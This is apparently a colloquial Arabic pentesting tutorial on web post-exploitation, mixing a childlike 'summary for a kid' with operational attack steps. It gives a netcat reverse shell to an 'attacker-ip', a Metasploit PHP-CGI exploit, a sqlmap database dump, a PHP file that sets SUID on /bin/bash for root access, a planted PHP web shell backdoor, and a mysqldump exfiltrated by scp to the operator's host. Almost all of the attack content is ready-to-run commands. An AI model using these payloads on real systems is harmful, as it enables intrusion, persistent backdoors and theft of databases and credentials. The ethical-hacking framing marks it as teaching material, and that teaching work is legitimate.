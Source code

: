 
### **4. أدوات عملية لـ Post-Exploitation في الويب 🧰**
في الـ Pentesting، فيه أدوات بتساعدك تعمل الخطوات دي بسرعة.

- **Metasploit:**
  - أمر: `msfconsole`
  - استخدم: `use exploit/multi/http/php_cgi_arg_injection`
    - بيستغل ثغرة في PHP ويديك Shell.
  - نفذ: `run` → لو نجح، هيفتح جلسة تتحكم فيها.

- **Netcat:**
  - أمر في السيرفر: `nc -e /bin/bash attacker-ip 4444`
  - في جهازك: `nc -lvnp 4444` → يفتح Shell متصل بيك.

- **SQLMap:**
  - أمر: `sqlmap -u "example.com/index.php?id=1" --dump`
    - بيستخرج قاعدة البيانات لو فيه ثغرة SQL Injection.

**خلاصة للطفل:** زي إنك تجيب شنطة أدوات مليانة حاجات ذكية 🧰 تساعدك تلعب أحسن وتكسب اللعبة بسرعة! 🎮

---

### **خطوات عملية للـ Pentesting في Post-Exploitation 🛠️**
دلوقتي خطوات عملية للاستغلال في اختبار الاختراق الأخلاقي في سياق الويب:

#### **في سيرفر ويب (لينكس):**
1. **تأكد إنك داخل:**
   ```bash
   whoami
   ```
   - خرج مثال: `www-data`.

2. **استكشف الملفات:**
   ```bash
   find /var/www -name "*.php"
   ```
   - لو لقيت `/var/www/html/config.php`:
     ```bash
     cat /var/www/html/config.php
     ```
     - ابحث عن باسووردات زي `$db_password`.

3. **ارفع صلاحياتك:**
   ```bash
   echo '<?php exec("chmod u+s /bin/bash"); ?>' > /var/www/html/test.php
   ```
   - افتح: example.com/test.php.
   - نفذ: `/bin/bash -p` وشوف `id`.

4. **زرع Backdoor:**
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php
   ```
   - جرب: example.com/shell.php?cmd=id.

5. **استخرج بيانات:**
   ```bash
   mysqldump -u root -psecret123 dbname > /tmp/dump.sql
   scp /tmp/dump.sql user@your-ip:/home/user/
   ```

